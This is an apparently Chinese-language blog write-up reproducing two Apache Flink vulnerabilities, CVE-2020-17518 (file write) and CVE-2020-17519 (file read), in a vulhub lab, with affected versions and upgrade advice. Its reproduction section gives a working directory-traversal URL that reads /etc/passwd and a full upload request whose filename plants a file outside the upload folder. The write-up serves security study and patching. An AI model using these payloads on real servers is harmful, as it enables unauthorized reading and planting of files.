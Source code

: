 **目录**

[漏洞描述](#t0 "漏洞描述")

[漏洞影响版本](#t1 "漏洞影响版本")

[漏洞复现](#t2 "漏洞复现")

[任意文件读取](#t3 "任意文件读取")

[任意文件写入](#t4 "任意文件写入")

[修复建议](#t5 "修复建议")

* * *

漏洞描述
----

     Flink 在 1.5.1 版本中引入了一个 REST [handler](https://so.csdn.net/so/search?q=handler&spm=1001.2101.3001.7020)，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置。

   [Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020) Flink 1.11.0中引入的一个更改(也在1.11.1和1.11.2中发布)允许攻击者通过JobManager进程的REST接口使用 ../../ 进行目录遍历以实现系统任意文件读取。

漏洞影响版本
------

| **漏洞编号** | **影响版本** | **漏洞类型** |
| --- | --- | --- |
| CVE-2020-17518 | Apache Flink 1.5.1 ~ 1.11.2 | 文件写入 |
| CVE-2020-17519 | Apache Flink 1.11.0 ~ 1.11.2 | 任意文件读取 |

漏洞复现
----

环境搭建：[vulhub/docker-compose.yml at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/blob/master/flink/CVE-2020-17518/docker-compose.yml "vulhub/docker-compose.yml at master · vulhub/vulhub · GitHub")

### 任意文件读取

payload

```
http://xx.xx.xx.xx:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```


![](https://img-blog.csdnimg.cn/20210114153727681.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 任意文件写入

http数据包

```
POST /jars/upload HTTP/1.1      
Host: xx.xx.xx.xx:8081      
Accept-Encoding: gzip, deflate      
Accept: */*      
Accept-Language: en      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36      
Connection: close      
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y      
Content-Length: 185      1
​      1
------WebKitFormBoundaryoZ8meKnrrso89R6Y      1
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"      1
​      1
success      1
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```


![](https://img-blog.csdnimg.cn/20210114153745911.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

修复建议
----

请及时升级至Flink 1.11.3或Flink 1.12.0。下载链接：[https://flink.apache.org/zh/downloads.html](https://flink.apache.org/zh/downloads.html "https://flink.apache.org/zh/downloads.html")

参考文章：[vulhub/flink at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/tree/master/flink "vulhub/flink at master · vulhub/vulhub · GitHub")

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)